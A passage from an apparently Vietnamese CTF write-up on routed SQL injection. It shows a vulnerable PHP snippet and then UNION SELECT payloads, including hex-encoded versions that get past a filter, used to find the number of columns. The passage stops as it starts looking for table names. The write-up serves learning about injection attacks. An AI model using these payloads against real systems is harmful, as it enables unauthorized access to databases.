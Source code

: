 ```php=


if (!$result = mysql_query($query, $conn)) {
    die("Lỗi trong quá trình chọn dữ liệu: " . mysql_error());
}


if (mysql_num_rows($result) == 0) {
    die("Tham số đầu vào không hợp lệ");
}


$row = mysql_fetch_array($result, MYSQL_ASSOC);


echo 'Tên người dùng là: ' . $row['username'] . "<br>";
?>

```

Đoạn code trên sẽ hởi khác với chall nhưng về bản chất là như vậy

Tiến hành thử nghiệm : 

![image](https://hackmd.io/_uploads/SJHRK7OHa.png)


![image](https://hackmd.io/_uploads/HkgTkqmuS6.png)


![image](https://hackmd.io/_uploads/S1TecXdrT.png)

Quả thật output từ query 1 đã chuyển vào input cho query 2

Sau khi đã hiểu SQL Injection Routed là gì thì ta tiếp tục thử payload để xác định số column :    

`'UNION SELECT ' ORDER BY 2 -- - -- -`

![image](https://hackmd.io/_uploads/Hywmt7_rT.png)

Kết quả vẫn bị filter , sau khi tham khảo trên gg thì để bypass được ta cần đổi sang dạng hex , vậy payload sẽ như sau : 

`'UNION SELECT 0x27204f524445522042592032202d2d202d -- -`

Tiếp tục : 

`'UNION SELECT ' ORDER BY 3 -- - -- -`

-> `'UNION SELECT 0x27204f524445522042592033202d2d202d -- -`

Kết quả trả về không tìm thấy column 3 , vậy số column là 2 

![image](https://hackmd.io/_uploads/HJr8h7uSp.png)

Tiếp tục tìm table_name :    
